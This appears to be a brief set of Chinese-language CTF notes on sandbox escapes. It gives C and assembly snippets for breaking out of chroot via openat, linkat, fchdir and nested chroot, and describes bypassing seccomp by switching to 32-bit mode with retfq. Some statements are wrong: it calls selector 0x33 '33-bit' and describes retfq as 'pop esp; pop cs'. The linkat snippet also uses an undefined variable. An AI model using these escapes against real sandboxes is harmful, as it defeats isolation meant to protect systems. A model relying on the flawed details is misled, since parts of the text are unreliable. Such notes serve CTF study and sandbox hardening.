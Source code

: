 # SandBox

### 突破`chroot`

#### 无`chdir`突破

`chroot`不会设置工作目录，需要使用`chdir`设置进入`jail`。

因此，没有使用`chdir`设置，我们就在`jail`外，不受任何限制。

读取文件只需要用当前工作目录下的相对文件

#### 使用openat

* 如果在`chdir`之前打开了，不在`jail`里的目录。使用`openat`就可以打开不在`jail`里的文件。
	```C
	int f = open("/", O_RDONLY | O_DIRECTORY);
	chroot("/home/liu");
	chdir("/");
	int f2 = openat(f,"flag",0); //读取/flag
	```

#### 使用`linkat`
* 如果在`chdir`之前打开了，不在`jail`里的目录。使用`linkat`创建硬链接，将`jail`外的文件链接到jail里面。
```C
int f = open("/", O_RDONLY | O_DIRECTORY);
chroot("/home/liu");
chdir("/");
int f2 = openat(f,"flag",0); //读取/flag
linkat(f,"flag",jail_dir,"new_flag",0);
```
#### 使用 `fchdir`
* 如果在`chdir`之前打开了，不在`jail`里的目录。使用`fchdir`更改工作目录，到不在`jail`里的目录。
```asm
	mov rdi,3 ;根目录文件符号
    mov rax,81
    syscall

    lea rdi,[rip+flag]
    mov rsi,0
    mov rax,2
    syscall

    mov rdi,1
    mov rsi,rax
    mov rdx,0
    mov r10,1000
    mov rax,40
    syscall

flag:
	.string "flag"
```
#### 使用`chroot `&`mkdir`
* 使用`mkdir`在`jail`中创建目录，在使用`chroot`设置新的`jail`，即可逃出。
### 突破`seccomp`
#### 使用模式转换（`retfq`）
`seccomp`会检测我们的系统调用号，而我们通过模式转换在64位程序中执行32位系统调用，
比如`fstat`系统调用，调用号是0x5（64位是`sys_fstat`，32位是`sys_open`），seccomp只检测调用号是不是0x5。
通过`retfq`切换模式，`retfq`修改`cs`中的值，`0x23`是32位，`0x33`是33位
`retfq`相当于 `pop esp ; pop cs`
**注意：**要进行栈迁移，64位栈地址超过了4字节，需要使用mmap设置一块地址长度在四字节的地址，或另外找一块内存地址。